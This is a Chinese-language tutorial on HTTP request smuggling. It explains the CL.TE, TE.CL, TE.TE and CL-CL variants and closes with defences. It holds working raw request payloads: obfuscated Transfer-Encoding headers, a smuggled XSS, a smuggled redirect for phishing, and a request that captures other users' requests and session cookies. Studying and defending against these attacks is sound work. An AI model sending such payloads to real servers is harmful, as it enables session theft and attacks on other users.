

# HTTP Smuggling Attack(HTTP走私攻击)

## 什么是HTTP走私攻击

HTTP 请求走私是一种干扰网站处理从一个或多个用户收到的 HTTP 请求序列方式的技术。请求走私漏洞允许攻击者绕过安全控制，未经授权访问敏感数据，并直接危害其他应用程序用户。

当今的 Web 应用程序在用户和最终应用程序逻辑之间一般使用 HTTP 服务器链。用户向前端服务器（有时称为负载平衡器或反向代理）发送请求，该服务器将请求转发到一个或多个后端服务器。这种类型的架构在现代基于云的应用程序中越来越普遍，在某些情况下是不可避免的。

当前端服务器将 HTTP 请求转发到后端服务器时，它通常会通过同一个后端网络连接发送多个请求，因为这样更加高效和高效。协议很简单：HTTP请求一个接一个地发送，接收服务器解析HTTP请求头来判断一个请求从哪里结束，下一个请求从哪里开始。



在这种情况下，前端和后端系统就请求之间的边界达成一致至关重要。当其对于请求数据的边界控制没有达成一致时，攻击者可能能够发送由前端和后端系统以不同方式解释的模棱两可的请求：


在这里，攻击者使他们的前端请求的一部分被后端服务器解释为下一个请求的开始。它实际上是在下一个请求的前面，就像是攻击者的数据包偷偷走私了一个数据一样。


## 为什么会产生这种漏洞

在HTTP1.1后，增加了一个特殊的请求头Connection: Keep-Alive，建立tcp持续通道，进行一次tcp握手，就能传送多个请求。但这样子只能是请求一次响应一次。为了提高数据传输的效率，减少阻塞。后来就有了HTTP Pipelining(管线化)字段，它是将多个http请求批量提交,而不用等收到响应再提交的异步技术。如下图就是使用Pipelining和非Pipelining


这意味着前端与后端必须短时间内对每个数据包的边界大小达成一致，否则，攻击者就可以构造发送一个特殊的数据包，在前端看来它是一个请求，但在后端却被解释为了两个不同的HTTP请求。于是就导致攻击者可以在下一个用户发送的合法数据包前恶意添加内容。

大多数 HTTP 请求走私漏洞的出现是因为 HTTP 规范提供了两种不同的方式来指定请求的结束位置：Content-Length 标头和 Transfer-Encoding 标头。

Content-Length 标头很简单：它以字节为单位指定消息体的长度。例如：

```http
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

Transfer-Encoding 标头可用于指定消息正文使用分块编码。这意味着消息正文包含一个或多个数据块。每个块由以字节为单位的块大小（以十六进制表示）、后跟换行符和块内容组成。消息以大小为零的块终止。例如:

```http
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```

>许多安全测试人员不知道可以在 HTTP 请求中使用分块编码，原因有两个：
Burp Suite 自动解压缩分块编码，使消息更易于查看和编辑。
浏览器通常不会在请求中使用分块编码，它通常只出现在服务器响应中。

由于 HTTP 规范提供了两种不同的方法来指定 HTTP 消息的长度，因此单个消息可能会同时使用这两种方法，从而导致它们相互冲突。 HTTP 规范试图通过声明如果 Content-Length 和 Transfer-Encoding 标头都存在，则应忽略 Content-Length 标头来防止此问题。当只有一个服务器在运行时，这可能足以避免歧义，但当两个或多个服务器链接在一起时则不然。在这种情况下，出现问题的原因有两个：

+ 某些服务器不支持请求中的 Transfer-Encoding 标头。
+ 如果标头以某种方式被混淆，一些支持 Transfer-Encoding 标头的服务器可能会被诱导不处理它。

如果前端和后端服务器在（可能被混淆的）Transfer-Encoding 标头方面的行为不同，那么它们可能会在连续请求之间的边界上存在分歧，从而导致请求走私漏洞。

## 如何利用该漏洞攻击

请求走私攻击涉及将 Content-Length 标头和 Transfer-Encoding 标头放入单个 HTTP 请求并对其进行操作，以便前端和后端服务器以不同的方式处理请求。完成此操作的确切方式取决于两个服务器的行为：

+ CL.TE：前端服务器使用Content-Length头，后端服务器使用Transfer-Encoding头。
+ TE.CL：前端服务器使用Transfer-Encoding头，后端服务器使用Content-Length头。
+ TE.TE：前端和后端服务器都支持 Transfer-Encoding 标头，但可以通过某种方式混淆标头来诱导其中一台服务器不处理它。

### CL.TE漏洞

前端服务器使用 Content-Length 标头，后端服务器使用 Transfer-Encoding 标头。我们可以执行一个简单的 HTTP 请求走私攻击，如下所示：

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

前端服务器处理 Content-Length 标头并确定请求正文为 13 个字节长，直到 SMUGGLED 结束。该请求被转发到后端服务器。
后端服务器处理 Transfer-Encoding 标头，因此将消息正文视为使用分块编码。它处理第一个块，它被声明为零长度，因此被视为终止请求。接下来的字节 SMUGGLED 未处理，后端服务器会将它们视为序列中下一个请求的开始。

### TE.CL漏洞

这里，前端服务器使用 Transfer-Encoding 标头，后端服务器使用 Content-Length 标头。我们可以执行一个简单的 HTTP 请求走私攻击，如下所示：

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

>要使用 Burp Repeater 发送此请求，首先需要进入 Repeater 菜单并确保未选中“Update Content-Length”选项。
并且需要需要在最后一个 0 之后包含尾随序列 \r\n\r\n。

前端服务器处理 Transfer-Encoding 标头，因此将消息正文视为使用分块编码。它处理第一个块，它被声明为 8 个字节长，直到 SMUGGLED 之后的行的开头。它处理被声明为零长度的第二个块，因此被视为终止请求。该请求被转发到后端服务器。
后端服务器处理 Content-Length 头，确定请求体长度为 3 个字节。后面以 SMUGGLED 开头的字节不处理，后端服务器会将这些视为序列中下一个请求的开始。

### TE.TE漏洞

前端和后端服务器都支持 Transfer-Encoding 标头，但可以通过以某种方式混淆标头来诱导其中一台服务器不处理它。
有无数种方法可以混淆 Transfer-Encoding 标头。例如：

```http
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

这些技术中的每一种都涉及与 HTTP 规范的微妙偏离。实现协议规范的实际代码很少绝对精确地遵守它，并且不同的实现通常会容忍来自规范的不同变化。要发现 TE.TE 漏洞，需要找到 Transfer-Encoding 标头的一些变体，以便只有前端或后端服务器之一处理它，而另一台服务器忽略它。
根据可以诱导不处理混淆的 Transfer-Encoding 标头的是前端还是后端服务器，攻击的其余部分将采用与 CL.TE 或 TE.CL 漏洞相同的形式已经描述。

### 特殊情况

#### CL不为0的GET请求

假设前端代理服务器允许GET请求携带请求体，而后端服务器不允许GET请求携带请求体，它会直接忽略掉GET请求中的 Content-Length头，不进行处理。这就有可能导致请求走私。

　　比如发送下面请求

```http
GET / HTTP/1.1
Host:example.com
Content-Length:44

GET /socket HTTP/1.1
Host: example.com
```

前端服务器通过读取Content-Length，确认这是个完整的请求，然后转发到后端服务器，而后端服务器因为不对Content-Length进行判断，由于Pipeline的存在，它认为这是两个请求，分别为

第一个

```http
GET / HTTP/1.1
Host: example.com
```

第二个

```http
GET /socket HTTP/1.1
Host: example.com
```

则相当于走私了请求

#### CL-CL

在RFC7230规范中，规定当服务器收到的请求中包含两个 Content-Length，而且两者的值不同时，需要返回400错误。但难免会有服务器不严格遵守该规范。假设前端和后端服务器都收到该类请求，且不报错，其中前端服务器按照第一个Content-Length的值对请求进行为数据包定界，而后端服务器则按照第二个Content-Length的值进行处理。

这时攻击者可以恶意构造一个特殊的请求，

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 6
Content-Length: 5

123
A
```

CDN服务器获取到的数据包的长度6，将上述整个数据包转发给后端的服务器，而后端服务器获取到的数据包长度为5。当读取完前5个字符后，后端服务器认为该请求已经读取完毕，然后发送出去。而此时的缓冲区去还剩余一个字母 A，对于后端服务器来说，这个 A是下一个请求的一部分，但是还没有传输完毕。此时恰巧有一个其他的正常用户对服务器进行了请求，则该A字母会拼凑到下一个正常用户请求的前面，攻击在此展开。

### 攻击举例

#### smuggling+reflected xss

单纯的UA处的xss并没有什么危害，但可以结合请求走私攻击进行利用来提升危害

我们可以构造以下数据包，只要发送一次，就可以在网站的任意页面触发xss，因为在http序列中，走私的请求会插到用户对网站的请求前面

```http
POST / HTTP/1.1
Host: example.com
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: session=k3jXNrcQioQOdiLYyRXPJVf5gHZykEl8
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0
GET /post?postId=3 HTTP/1.1
User-Agent: ">＜script＞alter(1)＜/script＞
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

#### 4.2 direct+smuggling

基于url跳转,把用户重定向到一个固定网页，lab为我们提供个跳转api,/post/next?postId=3路由跳转到的是/post?postId=3。

此时我们可以利用走私攻击并配合重定向进行钓鱼。

发送以下数据包一次，然后访问原网站任意页面，都会被重定向到/post?postId=4

```http
POST / HTTP/1.1
Host: example.com
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=Rmtn44vZ2BeGqD1ToPbAYrcDS0UiIKwQ
Content-Type: application/x-www-form-urlencoded
Content-Length: 178
Transfer-Encoding: chunked

0
GET /post/next?postId=3 HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

#### 窃取用户请求

利用走私攻击捕捉用户请求数据包，窃取cookie

我们在发送评论处的api接口构造请求包如下

发送以下数据包

```http
POST / HTTP/1.1
Host: example.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: session=7fnaaemuD32ZqUPyB6EGVA8vOL8wwz8p
Content-Type: application/x-www-form-urlencoded
Content-Length: 343
Transfer-Encoding: chunked

0
POST /post/comment HTTP/1.1
Host: example.com
Content-Length: 600
Content-Type: application/x-www-form-urlencoded
Cookie: session=7fnaaemuD32ZqUPyB6EGVA8vOL8wwz8p
csrf=aeITUnejzQ7XRUTUiEWl4X6ckwPt8TWc&postId=2&name=1&email=123%40qq.com&website=https%3A%2F%2F
```

成功把用户的请求拼接到走私请求的comment参数上，如下图


### 案例


该案例利用的是CL-TE的攻击方式。根据RFC，当Content-Length和Transfer-Encoding两个标头同时出现在同一请求包时，Transfer-Encoding始终被优先处理。但是，如果Transfer-Encoding标头格式错误，则前端服务器和后端服务器之间的对请求的解释可能会有所不同。在该站点上发现的CLTE问题是，在请求包中Transfer-Encoding 和:之间加多一个空格，使该字段的格式为非标准值，此时前端服务器依据RPC规范，优先处理Content-Length，而后端服务器并没严格遵守RPC规范，以Transfer-Encoding为依据进行处理数据包。

于是用户的正常请求被拼接到X字段，而X请求头非标准请求头，故忽略，而该用户的cookie字段也被拼接到了该走私的请求上，随之跟随响应流量被返回给攻击者。

## 如何防御

HTTP请求走私漏洞出现在当前端服务器通过同一网络连接向后端服务器转发多个请求时后端连接使用的协议导致两台服务器对请求数据边界的解析不一致的情况下。所以可以用如下的方法防御HTTP走私攻击：

+ 前端服务器对前端输入规范化
+ 使用HTTP2.0，因为此协议可防止请求之间的边界模糊
+ 后端服务器丢弃非正常请求
+ 禁用后端连接的重用，以便通过单独的网络连接发送每个后端请求
+ 前端后端采用相同的服务器程序，保证采用同样的数据解析方式
